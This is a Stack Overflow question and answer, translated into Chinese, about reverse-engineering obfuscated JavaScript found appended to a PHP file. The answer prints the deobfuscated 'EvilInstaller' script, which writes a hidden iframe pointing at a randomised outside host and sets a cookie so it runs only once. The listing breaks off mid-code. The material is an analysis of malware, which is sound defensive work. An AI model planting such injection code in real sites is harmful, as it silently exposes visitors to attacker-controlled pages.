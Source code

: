 # javascript - 您将如何对此进行逆向工程？

> ID：425113
> 
> 赞同：5
> 
> 时间：2009-01-08T17:19:50.137
> 
> 标签：javascript, hex, obfuscation, reverse-engineering, deobfuscation

我有一些代码位于 javascript 中的 php 文件的底部。它经历了许多奇怪的扭曲，比如将十六进制转换为 ascii，然后进行正则表达式替换，执行代码等等......

有没有办法在它实际执行之前找出它正在执行的内容？

代码在这里：

[http://pastebin.ca/1303597](http://pastebin.ca/1303597)

* * *

## 回答 #1

> 赞同：26
> 
> 时间：2009-01-08T17:30:46.713

您可以逐步完成它 - 因为它是 Javascript，并且它是被解释的，所以它需要是它自己的解密器。如果您可以访问命令行 Javascript 解释器（例如[Firebug](http://www.getfirebug.com/)中的控制台），这将相当简单。

我会看看，看看会发生什么。

*编辑*我已经完成了大部分工作 - 看起来最后一步并非易事，可能是因为它涉及“argument.callee”。无论如何，我已经在Pastebin上提出了[迄今为止的内容。](http://pastebin.ca/1303638)

有趣的是，我发现其中最困难的部分是给乱码变量正确命名。它让我想起了填字游戏或数独游戏，你知道事物是如何相关的，但在你弄清楚它的依赖部分是什么之前，你不能明确地分配一些东西。:-) 我敢肯定，如果有人认可该算法，他们可以为这些部分赋予更有意义的名称，但是在进行大量异或运算的地方，有两个临时变量，我刚刚将其保留为默认名称因为我不知道足够的上下文来给他们有用的上下文。

*最终编辑*：当我意识到我可以传入具有讽刺意味的是刚刚解码的原始文本时，“arguments.callee”位变得很容易（这是一种非常聪明的技术，因此正常的反混淆当然不会起作用，因为一次您重命名变量等，值不同）。无论如何，这是您的完整脚本：

```
 function EvilInstaller(){};
    EvilInstaller.prototype = {
        getFrameURL : function() {
            var dlh=document.location.host;
            return "http"+'://'+((dlh == '' || dlh == 'undefined') ? this.getRandString() : '') + dlh.replace (/[^a-z0-9.-]/,'.').replace (/\.+/,'.') + "." + this.getRandString() + "." + this.host + this.path;
        },
        path:'/elanguage.cn/',
        cookieValue:1,
        setCookie : function(name, value) {
            var d= new Date();
            d.setTime(new Date().getTime() + 86400000);
            document.cookie = name + "=" + escape(value)+"; expires="+d.toGMTString();
        },
        install : function() {
            if (!this.alreadyInstalled()) {
                var s = "<div style='display:none'><iframe src='" + this.getFrameURL() + "'></iframe></div>"
                try {
                    document.open();
                    document.write(s);
                    document.close();
                }
                catch(e) {
                    document.write("<html><body>" + s + "</body></html>")
```